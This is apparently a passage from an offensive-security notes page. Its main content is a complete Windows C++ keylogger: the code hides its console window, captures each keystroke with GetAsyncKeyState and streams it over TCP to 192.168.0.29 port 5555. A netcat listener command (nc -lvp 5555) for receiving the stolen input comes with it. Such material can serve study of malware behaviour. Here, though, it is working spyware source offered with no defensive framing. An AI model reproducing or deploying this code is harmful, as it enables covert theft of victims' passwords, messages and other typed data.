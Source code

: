 ```cpp
```

### Example: keylogger that sends any collected information back

Listen for an incoming connection with `nc -lvp 5555`:

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

int main()
{
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    char KEY;

    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);
    addr.sin_addr.s_addr = inet_addr("192.168.0.29");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);
    connect(server, (SOCKADDR *)&addr, sizeof(addr));

        while (true) {
        Sleep(10);
        for (int KEY = 0x8; KEY < 0xFF; KEY++)
        {
            if (GetAsyncKeyState(KEY) == -32767) {
                        char buffer[2];
                        buffer[0] = KEY;
                        send(server, buffer, sizeof(buffer), 0);
            }
        }
}
closesocket(server);
WSACleanup();
}
```

## Python

### Basics
